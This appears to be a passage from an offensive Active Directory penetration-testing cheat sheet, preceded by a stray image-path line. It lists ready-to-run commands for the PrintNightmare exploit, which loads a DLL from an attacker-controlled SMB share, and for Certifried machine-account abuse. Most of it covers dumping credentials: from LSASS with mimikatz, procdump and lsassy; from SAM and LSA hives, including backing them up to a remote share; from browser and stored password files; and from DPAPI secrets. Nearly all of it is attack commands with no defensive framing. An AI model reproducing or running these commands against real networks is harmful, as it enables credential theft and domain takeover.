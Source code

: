 ```bash
with impacket :  addcomputer.py / addspn.py / renameMachine.py / getTGT.py / renameMachine.py / getST.py

PrintNightmare
CVE-2021-1675.py <domain>/<user>:<password>@<target> '\\<smb_server_ip>\<share>\inject.dll'

Certifried:
certipy account create -u <user>@<domain> -p '<password>' -user 'certifriedpc' -pass 'certifriedpass' -dns '<fqdn_dc>'
```


# Admin access
## Extract credentials from LSASS
```powershell
PPLdump64.exe <lsass.exe|lsass_pid> lsass.dmp
mimikatz "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "token::elevate"  "sekurlsa::logonpasswords" "!processprotect  /process:lsass.exe" "!-" #with mimidriver.sys 
procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" "exit"
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords"  "exit"
load kiwi -> creds_all
cme smb <ip_range> -u <user> -p <password> -M lsassy
lsassy -d <domain> -u <user> -p <password> <ip>

```
## Extract Credentials from SAM
```bash
cme smb <ip_range> -u <user> -p '<password>' --sam 
reg save HKLM\SAM <file>;  reg save HKLM\SECURITY <file>; reg save HKLM\SYSTEM <file> + secretsdump.py  -system SYSTEM -sam SAM LOCAL
diskshadow list shadows all + mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
mimikatz "privilege::debug" "lsadump::sam" "exit"
secretsdump.py <domain>/<user>:<password>@<ip>
```
## Extract credentials from LSA
```bash
cme smb <ip_range> -u <user> -p '<password>' --lsa
secretsdump.py <domain>/<user>:<password>@<ip>
reg.py <domain>/<user>:<password>@<ip> backup -o '\\<smb_ip>\share'
secretsdump.py -security <security_file> -system <system_file> LOCAL
```
## Retrieve stored passwords
```powershell
findstr /si 'password' *.txt *.xml *.docx
lazagne.exe all
%appdata%\Local\Google\Chrome\User Data\Default + SharpChromium.exe

```
## Data protection API (dpapi)
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords
```bash
DonPAPI.py <domain>/<user>:<password>@<target>
mimikatz.exe "sekurlsa::dpapi"
secretsdump.py <domain>/<user>:<passwor>@<ip>
```